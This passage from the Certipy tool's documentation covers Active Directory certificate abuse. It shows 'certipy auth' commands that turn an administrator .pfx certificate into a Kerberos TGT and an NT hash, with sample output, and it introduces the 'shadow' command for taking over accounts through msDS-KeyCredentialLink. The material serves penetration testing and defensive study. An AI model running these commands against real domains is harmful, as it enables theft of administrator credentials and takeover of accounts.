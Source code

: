 ```
connection options:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -timeout seconds      Timeout for connections

authentication options:
  -username username
  -domain domain
```

By default, Certipy will try to extract the username and domain from the certificate (`-pfx`) for authentication.

```bash
$ certipy auth -pfx administrator.pfx
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': a87f3a337d73085c45f9416be5787d86
```

The NT hash and the credential cache (TGT) can be used for further authentication with other tools.

If the example above doesn't work in your case, you can specify the required parameters manually, such as the KDC IP, username, and domain.

```bash
$ certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 172.16.19.100
Certipy v2.0.8 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': a87f3a337d73085c45f9416be5787d86
```

### Shadow Credentials

The `shadow` command is useful for taking over an account when you can write to the `msDS-KeyCredentialLink` attribute of the account. Read more about Shadow Credentials [here](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab).

```
Certipy v2.0.8 - by Oliver Lyak (ly4k)

usage: certipy shadow [-h] [-account target account] [-device-id DEVICE_ID] [-debug] [-out output file name] [-scheme ldap scheme] [-dc-ip ip address] [-target-ip ip address] [-ns nameserver] [-dns-tcp] [-timeout seconds] [-hashes LMHASH:NTHASH] [-no-pass] [-k] {list,add,remove,clear,info,auto} target

positional arguments:
  {list,add,remove,clear,info,auto}
                        Key Credentials action
  target                [[domain/]username[:password]@]<target name or address>

optional arguments:
  -h, --help            show this help message and exit
  -account target account
```
